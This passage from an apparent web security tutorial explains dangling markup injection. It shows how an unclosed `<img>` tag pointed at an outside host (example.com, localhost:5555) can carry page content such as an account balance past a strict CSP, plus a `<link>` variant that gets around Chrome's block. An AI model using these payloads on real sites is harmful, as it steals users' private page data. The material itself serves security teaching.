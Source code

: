 In this example, we can inject HTML into the page through the query string. However, the problem is that CSP is very strict and does not allow JavaScript, CSS, or even iframes. In this case, how can we steal data from the page?

We can pass in: `<img src="http://example.com?q=`, the key point is that this `<img>` tag is not closed and the attribute is not enclosed in double quotes. After combining with the original HTML, it becomes:

``` html
<div>
  Hello, <img src="http://example.com?q=
  <div>
    Your account balance is: 1337
  </div>
  <footer><img src="footer.png"></footer>
</div>
</body>
</html>
```

The original text on the page `<div>Your account balance...` becomes part of the `src` until it encounters another `"`, which closes the attribute, and then encounters `>`, which closes the tag. In other words, by using an intentionally unclosed tag, we successfully make the content of the page become part of the URL, which is then sent to our server. This type of attack is called dangling markup injection.

This attack is useful when the Content Security Policy (CSP) is strict and you want to steal data from the page. You can try this attack technique. However, it is important to note that Chrome has a built-in defense mechanism that does not load URLs if `<` or line breaks are present in the `src` or `href`.

Therefore, if you run the above HTML in Chrome, you will see that the request is blocked. However, Firefox currently does not have a similar mechanism and will happily send the request for you.

But if your injection point happens to be inside the `<head>`, you can bypass Chrome's restrictions using `<link>`:

``` html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'none'; style-src 'none'; form-action 'none'; frame-src 'none';">
  <link rel=icon href="http://localhost:5555?q=
</head>
<body>
  <div>
  Hello, 
  <div>
    Your account balance is: 1337
  </div>
  <footer><img src="footer.png"></footer>
</div>
</body>
</html>
```
